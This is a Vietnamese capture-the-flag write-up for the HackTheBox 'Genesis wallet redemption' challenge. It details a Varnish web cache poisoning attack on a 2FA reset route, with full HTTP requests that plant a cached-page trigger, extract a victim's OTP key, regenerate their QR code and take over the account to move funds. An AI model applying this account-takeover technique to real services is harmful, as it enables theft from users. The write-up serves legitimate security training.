 # Genesis wallet redemption

## Vul: Web cache poisoing  
_(From @d4rkmod3)_


Varnish chỉ cache các file có extension là js|css|map, svg|ico|jpg|jpeg|gif|png ...

Lợi dụng việc cấu hình route với regex: `/^\/(\w{2})?\/?(setup|reset)-2fa/` => `/reset-2fa.js` sẽ được cache

Ở đây có hai hướng để giải với web cache poisoing

- Tận dụng `req.param[1]` để khai thác XSS + CSRF để lấy optkey của icarus user tạo QR code mới.
- Build local với file đính kèm, lấy session của icarus user. Sau đó genQRCode ở tab console của DevTools.

Mình sẽ làm theo cách thứ 2 cho nhanh:

1. Tạo một transaction với note: `![blabla](http://127.0.0.1/reset-2fa.js)` mục đích là để cho bot gửi một request đến `/^\/(\w{2})?\/?(setup|reset)-2fa/`. Và request này sẽ được cache bởi varnish.
```
POST /api/transactions/create HTTP/1.1
Host: 159.65.89.199:31346
Content-Length: 110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.89.199:31346
Referer: http://159.65.89.199:31346/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJvdHBrZXkiOnRydWUsInZlcmlmaWVkIjp0cnVlLCJpYXQiOjE2NTI5NjQ5NTJ9.BF7kt4CjIFnQ0iNKtkJezmd5E57fg7hGLh30HEbgr3A
Connection: close

{"receiver":"1ea8b3ac0640e44c27b3cb8a258a87f8","amount":"0.00001","note":"![](http://127.0.0.1/reset-2fa.js)"}
```
2. Request đến `/reset-2fa.js` để lấy optkey của icarus user. 
```
GET /reset-2fa.js HTTP/1.1
Host: 127.0.0.1
```
-> genQRCode('OEQRSDJSKQSQS3IA');

3. Login với sesion của icarus user (trên local) -> genQRCode() -> lấy được QR code mới của icarus -> login và chuyển tiền qua account của ta.

**HTB{Fl3w_t00_cl0s3_t0_7h3_d3cept10n_4nd_burn3d!}**